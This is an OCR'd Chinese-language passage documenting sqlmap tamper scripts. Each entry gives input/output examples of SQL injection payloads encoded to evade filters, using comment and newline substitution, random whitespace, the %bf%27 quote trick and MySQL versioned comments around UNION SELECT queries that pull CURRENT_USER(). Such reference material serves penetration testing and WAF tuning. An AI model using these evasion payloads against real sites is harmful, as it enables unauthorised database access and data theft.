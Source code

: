 space2mssqlhash.py 以单行注释“#”和新行替换空格  
Example:  
* Input: 1 AND 9227=9227  
* Output: 1%23%0A9227=9227  
Requirement:  
* MSSQL  
* MySQL  

space2mysqlblank.py 以随机空白字符替换空格  
Example:  
* Input: SELECT id FROM users  
* Output: SELECT%0Bid%0BFROM%A0users  
Requirement:  
* MySQL  

space2mysqldash.py 以单行注释和新行替换空格  
Example:  
* Input: 1 AND 9227=9227  
* Output: 1--%0AAND--%0A9227=9227  
Requirement:  
* MySQL  
* MSSQL  

space2plus.py 以“+”替换空格  
Example:   
* Input: SELECT id FROM users  
* Output: SELECT+id+FROM+users  

space2randomblank.py 随机空白字符替换空格  
Example:  
* Input: SELECT id FROM users  
* Output: SELECT\rid\tFROM\nusers  

unionalltounion.py 以“union”替换“union all”  
Example:  
* Input: -1 UNION ALL SELECT  
* Output: -1 UNION SELECT  

unmagicquotes.py 以“%bf%27”替换单引号，并在结尾添加注释“--”  
Example:  
* Input: 1' AND 1=1  
* Output: 1%bf%27 AND 1=1--%20  

versionedkeywords.py 对不是函数的关键字条件注释  
Example:  
* Input: `1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#`  
* Output:  `1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`  
Requirement:  
* MySQL  

versionedmorekeywords.py 对关键字条件注释  
Example:   
* `Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#`  
* Output: `1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#`  
Requirement:  
* MySQL >= 5.1.13  

 